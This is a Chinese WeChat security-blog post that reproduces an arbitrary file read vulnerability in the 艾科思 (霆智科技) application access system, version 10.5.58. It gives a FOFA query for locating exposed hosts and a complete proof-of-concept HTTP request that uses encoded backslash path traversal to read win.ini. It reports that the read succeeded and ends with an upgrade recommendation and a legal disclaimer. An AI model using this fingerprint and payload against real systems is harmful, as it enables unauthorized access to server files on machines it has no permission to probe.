 #  艾科思（霆智科技）应用接入系统存在任意文件读取漏洞

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 84个

**漏洞简介**

科思应用接入系统(霆智科技的VA虚拟应用平台)是一个创新的技术平台，旨在为用户提供虚拟助手（Virtual
Assistant）的功能和服务。该系统存在任意文件读取漏洞。  

 **影响版本**

10.5.58版本  

![]()

 **FOFA语句**

  * 

    
    
     body="EAA益和应用接入系统"

![]()

 **漏洞复现**

burp抓包，发送repeater模块

![]()

POC：

  *   *   *   *   *   *   *   * 

    
    
    GET /..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini HTTP/1.1Host: ****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: close  
    

任意读取成功

![]()

 **修复建议**

建议升级至安全版本

![]()

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

 **由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。 **公众号**
内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金**
。  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

